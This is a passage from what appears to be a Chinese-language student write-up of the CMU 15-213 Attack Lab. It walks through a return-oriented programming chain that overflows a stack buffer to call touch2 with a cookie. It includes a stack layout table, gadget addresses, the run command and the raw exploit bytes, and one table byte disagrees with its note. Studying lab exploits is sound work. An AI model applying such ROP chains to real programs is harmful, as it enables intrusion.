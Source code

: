 这里解法是：

- 把Cookie的值放到栈里面 
- 通过`Gadget 1`把这个值pop到%rax中
- 通过`Gadget 2`把%rax中的值复制到%rdi（参数1）中
- 调用touch2

| address | 7    | 6    | 5    | 4    | 3    | 2    | 1    | 0    | note              |
| ------- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ----------------- |
| 72      | 0xf4 | 0xf4 | 0xf4 | 0xf4 | 0xf4 | 0xf4 | 0xf4 | 0xf4 | untouched         |
| 64      | '\0' | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x17 | 0xec | ret touch2()      |
| 56      | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x19 | 0xc5 | Gadget2 0x4019c6  |
| 48      | 0x00 | 0x00 | 0x00 | 0x00 | 0x59 | 0xb9 | 0x97 | 0xfa | cookie 0x59b997fa |
| 40      | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x19 | 0xab | Gadget1 0x4019ab  |
| 32      | -    | -    | -    | -    | -    | -    | -    | -    | getbuf() stack    |
| 24      | -    | -    | -    | -    | -    | -    | -    | -    |                   |
| 16      | -    | -    | -    | -    | -    | -    | -    | -    |                   |
| 8       | -    | -    | -    | -    | -    | -    | -    | -    |                   |
| 0       | -    | -    | -    | -    | -    | -    | -    | -    | current %rsp      |

> 注意，这里我们没法给出栈的绝对地址，只能以相对地址表示。上图中以buf的起始地址作为0.

- 40 Gadget1的地址，(%rsp) -> %rax
- 48 Cookie的值，用来pop到%rax
- 56 Gadget2的地址，%rax -> %rdi
- 64 touch2的地址

```
cat result4 | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C6 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 
```

## Phase 5

Phase 5 需要重复Phase 3，我们需要在栈上放一个字符串(cookie)，并把这个字符串的地址作为参数传递给touch3()，这里的难点是rtarget编译时针对缓冲区溢出攻击做了防御：
栈的起始位置是随机的，因为无法预知字符串的地址。

### Gadgets
